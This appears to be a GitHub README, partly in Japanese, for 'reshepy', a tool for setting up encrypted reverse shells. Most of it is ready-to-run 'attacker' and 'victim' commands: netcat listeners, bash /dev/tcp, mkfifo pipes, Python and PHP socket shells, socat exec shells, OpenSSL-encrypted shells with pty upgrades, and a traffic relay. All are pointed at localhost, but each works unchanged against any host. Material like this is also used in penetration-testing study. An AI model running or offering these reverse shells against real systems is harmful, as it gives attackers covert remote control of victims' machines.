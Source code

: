 # reverse shell

* [Reverse Shell \(リバースシェル\) 入門 & 実践 \- 好奇心の足跡]( https://kusuwada.hatenablog.com/entry/2019/10/30/044325 )

## how to install
```
# for avoiding 'pip Installing collected packages: UNKNOWN'
pip3 install setuptools --upgrade
pip3 install https://github.com/umaumax/reshepy/archive/master.tar.gz
```

```
# mac
brew install socat
# ubuntu
sudo apt-get install -y socat
```

----

<!-- ## darwin -->
<!-- * [macos \- Create reverse shell using High Sierra? \- Ask Different]( https://apple.stackexchange.com/questions/324824/create-reverse-shell-using-high-sierra ) -->
<!-- ### attacker machine -->
<!-- ### victim machine -->

## TL;DR
* attacker machine
  * 基本的に自由な環境
    * `openssl`と`socat`がほしい
* victim machine
  * `openssl`さえあればsecureな通信が可能
  * `socat`があるに越したことはないが，`python -c 'import pty; pty.spawn("/bin/sh")'`での代用や直接バイナリをダウンロードする方法がある
    * [static\-binaries/socat at master · andrew\-d/static\-binaries]( https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat )

### DONE
* 通信のみはsecureで制御信号も受け付ける

### TODO
* attackerがclient証明書を利用するケース
* victimがserver証明書を利用するケース(only victim reshepy ok)
* ファイルを共有せずにone linerで上記の項目を実現し，完全にsecureとしたい

## ubuntu
### attacker machine
```
nc -nvlp 8080
```

### victim machine
```
bash -i >& /dev/tcp/localhost/8080 0>&1
```

## common (mac, ubuntu)
### attacker machine
```
nc -nvl 8080
```

```
# socat tcp-listen:8080,reuseaddr,fork stdout
# below command can handle signal and tab
socat $(tty),raw,echo=0 tcp-listen:8080,reuseaddr
```

### victim machine
```
mkfifo myfifo
nc 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1
rm -f myfifo
```

```
python -c 'import sys,socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 127.0.0.1 8080
```

```
php -r '$sock=fsockopen($argv[1],intval($argv[2]));exec("/bin/bash -i <&3 >&3 2>&3");' 127.0.0.1 8080
```

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:8080
```

## FYI
* [PayloadsAllTheThings/Reverse Shell Cheatsheet\.md at master · swisskyrepo/PayloadsAllTheThings]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?source=post_page-----c7598145282d---------------------- )
* `source`: [ersh\.py: a pure Python encrypted reverse shell \| Borderline]( https://blog.kwiatkowski.fr/?q=en/ersh )

## secure

[OpenSSLでReverse Shellの通信を暗号化する\(\+"Ctrl\+C"の対応\) \| 俺的備忘録 〜なんかいろいろ〜]( https://orebibou.com/2019/07/openssl%E3%81%A7reverse-shell%E3%81%AE%E9%80%9A%E4%BF%A1%E3%82%92%E6%9A%97%E5%8F%B7%E5%8C%96%E3%81%99%E3%82%8B%E3%82%AD%E3%83%BC%E3%83%90%E3%82%A4%E3%83%B3%E3%83%89%E5%AF%BE%E5%BF%9C/ )

* 通信内容はsecureだが，通信相手が正しいとはわからない

### attacker machine
```
# openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes
# Country Name (2 letter code) []: US
# Common Name (eg, fully qualified host name) []:www.localhost.com
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes -subj "/C=US/ST=/L=/O=/OU=/CN=www.localhost.com/emailAddress=/"

openssl s_server -quiet -key key.pem -cert cert.pem -port 8080
```


```
reshepy localhost:8080
```

`socat` secure version
```
# verify=0: no client certificate check
socat $(tty),raw,echo=0 openssl-listen:8080,reuseaddr,cert=cert.pem,key=key.pem,verify=0
```

at darwin
`stty: stdin isn't a terminal`

* [OpenSSL: How to create a certificate with an empty subject? \- Stack Overflow]( https://stackoverflow.com/questions/26058406/openssl-how-to-create-a-certificate-with-an-empty-subject )
* [x509 \- OpenSSL: How to create a certificate with an empty subject DN? \- Super User]( https://superuser.com/questions/512673/openssl-how-to-create-a-certificate-with-an-empty-subject-dn )

### victim machine
```
# socat ok
mkfifo /tmp/p;python -c 'import pty; pty.spawn("/bin/sh")' < /tmp/p 2>&1 | openssl s_client -quiet -connect 127.0.0.1:8080 > /tmp/p;rm -f /tmp/p
```
pythonのspawn a TTY shell from an interpreterを利用することでsocat(fully tty reverse shell)なしでもOK

`socat` secure version
```
socat openssl-connect:localhost:8080,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
より安全に通信したい場合には`verify=1`とする?

```
reshepy -c cert.pem --host=www.localhost.com localhost:8080
```
client側が適切なサーバかどうかを判定する処理
(ctrl-cやtab ok)

----

## port forwarding
下記のコマンドを`attacker`のlocalで動作させれば通信内容を見ることができる
`localhost:8081`->`127.0.0.1:8080`
```
mkfifo fifo
while true ; do nc -l 8081 < fifo | tee /dev/stderr | nc 127.0.0.1 8080 | tee /dev/stderr > fifo; done
rm -f fifo
```

----

## NOTE
* `attacker`と`victim`のコマンドの組み合わせは基本的に自由
* macでは`/dev/tcp/xxx`や`/dev/udp/xxx`などは利用できない
* attackerで`nc`を利用して待ち受けている場合は`ctrl-c`で`nc`が終了してしまう
  * `socat`を利用すればよいが，macには存在しない
* 通常は非暗号化状態で通信
* 接続直後に画面が乱れた場合には`stty sane`
